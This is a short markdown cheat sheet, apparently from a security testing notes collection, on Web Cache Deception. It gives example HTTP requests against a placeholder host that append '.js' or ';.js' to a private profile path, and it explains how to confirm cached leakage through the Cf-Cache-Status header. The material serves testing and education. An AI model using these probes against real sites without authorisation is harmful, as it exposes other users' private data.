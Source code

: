 # Web Cache Deception

## Introduction
Web Cache Deception is an attack in which an attacker deceives a caching proxy into improperly storing private information sent over the internet and gaining unauthorized access to that cached data

## Where to find
`-`

## How to exploit
* Normal Request (For example in the settings profile feature)
```
GET /profile/setting HTTP/1.1
Host: www.vuln.com
```
The response is
```
HTTP/2 200 OK 
Content-Type: text/html
Cf-Cache-Status: HIT 
...
```

1. Try to add cacheable extension (For example .js / .css / .jpg, etc.)
```
GET /profile/setting/.js HTTP/1.1
Host: www.vuln.com
```
The response is
```
HTTP/2 200 OK 
Content-Type: text/html
Cf-Cache-Status: HIT 
...
```
If the `Cf-Cache-Status` response the request with `HIT` not `MISS` or `Error`. And then try to open the url in incognito mode

1. Add `;` before the extension (For example `;.js` / `;.css` / `;.jpg`, etc.)
```
GET /profile/setting/;.js HTTP/1.1
Host: www.vuln.com
```
The response is
```
HTTP/2 200 OK 
Content-Type: text/html
Cf-Cache-Status: HIT 
...
```
If the `Cf-Cache-Status` response the request with `HIT` not `MISS` or `Error`. And then try to open the url in incognito mode

## References
* [@bxmbn](https://bxmbn.medium.com/how-i-test-for-web-cache-vulnerabilities-tips-and-tricks-9b138da08ff9)